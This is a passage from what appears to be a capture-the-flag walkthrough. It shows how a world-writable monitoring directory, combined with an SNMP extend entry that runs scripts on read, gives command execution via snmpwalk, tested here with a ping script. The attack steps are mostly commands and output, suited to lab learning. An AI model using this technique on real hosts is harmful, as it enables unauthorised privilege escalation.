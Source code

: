 

    [michelle@pit /]$ getfacl /usr/local/monitoring
    getfacl: Removing leading '/' from absolute path names
    # file: usr/local/monitoring
    # owner: root
    # group: root
    user::rwx
    user:michelle:-wx
    group::rwx
    mask::rwx
    other::---



### Execution as Root

I'll write a simple script to `ping` my VM:



    [michelle@pit monitoring]$ echo 'ping -c 1 10.10.14.7' > check_0xdf.sh
    [michelle@pit monitoring]$ cat check_0xdf.sh
    ping -c 1 10.10.14.7



The script works fine as michelle:



    [michelle@pit monitoring]$ bash check_0xdf.sh
    PING 10.10.14.7 (10.10.14.7) 56(84) bytes of data.
    64 bytes from 10.10.14.7: icmp_seq=1 ttl=63 time=92.3 ms

    --- 10.10.14.7 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 92.259/92.259/92.259/0.000 ms



Now I'll trigger it via SNMP (I can trigger just the MIB for the
monitoring script so that it doesn't take minutes to run):



    oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1             
    NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
    NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:
    NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                    
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                     
    Memory usage
                  total        used        free      shared  buff/cache   available
    Mem:          3.8Gi       439Mi       3.0Gi       8.0Mi       393Mi       3.2Gi
    Swap:         1.9Gi          0B       1.9Gi
    ...[snip]...
